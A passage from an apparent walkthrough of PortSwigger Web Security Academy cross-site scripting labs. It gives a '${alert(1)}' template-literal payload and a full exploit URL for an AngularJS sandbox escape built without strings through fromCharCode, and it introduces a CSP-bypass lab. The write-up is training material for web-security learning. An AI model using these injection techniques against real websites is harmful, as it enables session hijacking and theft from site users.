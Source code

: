 Payload

```
${alert(1)}
```

![](img44.png)

## 19. Lab: Reflected XSS with AngularJS sandbox escape without strings (P)

```
This lab uses AngularJS in an unusual way where the $eval function is not available and you will be unable to use any strings in AngularJS.

To solve the lab, perform a cross-site scripting attack that escapes the sandbox and executes the alert function without using the $eval function.
```

URL

```
https://acb21f281e6b46ae80ce52c30094008a.web-security-academy.net/?search=1&toString().constructor.prototype.charAt%3d[].join;[1]|orderBy:toString().constructor.fromCharCode(120,61,97,108,101,114,116,40,49,41)=1
```

![](img45.png)

## 20. Lab: Reflected XSS with AngularJS sandbox escape and CSP (P)

```
This lab uses CSP and AngularJS.

To solve the lab, perform a cross-site scripting attack that bypasses CSP, escapes the AngularJS sandbox, and alerts document.cookie.
```
